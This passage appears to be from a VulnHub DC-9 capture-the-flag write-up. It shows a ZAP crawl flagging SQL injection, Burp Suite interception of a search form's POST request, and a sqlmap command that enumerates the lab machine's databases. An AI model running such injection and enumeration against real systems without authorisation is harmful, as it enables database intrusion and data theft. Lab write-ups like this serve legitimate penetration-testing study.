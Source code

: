 ### ZAP
We can crawl the targeted website automatically with ZAP. 

![ddcaaaa179329ea77443e965d1457ee7.png](/images/vulnhub/dc-9/8753d18399ce405c93ad87b068bb7531.png)

Here, we can confirm there is SQLi vuln here. 


### Burpsuite
Lets capture 

#### Setup 

For Burpsuite capturing setup, im using foxyproxy on chromium and any request send to the web app will be intercepted by Burpsuite
![793ab00691a884bfc4898e67d0a8f676.png](/images/vulnhub/dc-9/1a8aa0aad1254cdf97f0295556393324.png)



![b5f199757d0ebaaa3df60506ffff8341.png](/images/vulnhub/dc-9/208741eb613548a59412d4a1696fa890.png)



![bec871981806844ddc6ee52dce9b5a33.png](/images/vulnhub/dc-9/f7eba68a5ce2459e81d6f4ba6a5a6c52.png)




![6ff873d798029298fdac856368214b44.png](/images/vulnhub/dc-9/f800b3f502fa4f6c99505de2f165462c.png)

Save the request on local folder for sqlmap usage later. 

```code
POST /results.php HTTP/1.1
Host: 192.168.43.182
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.43.182
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.43.182/search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=r0i61er653jmbqm0m323d3cdch
Connection: close

search=everything
```


### SQLmap
First, we will enumerate database version used in the victim using outopu from the post request we captured in Burpsuite. 
`sqlmap -r exploit/sql.txt --dbs --batch`
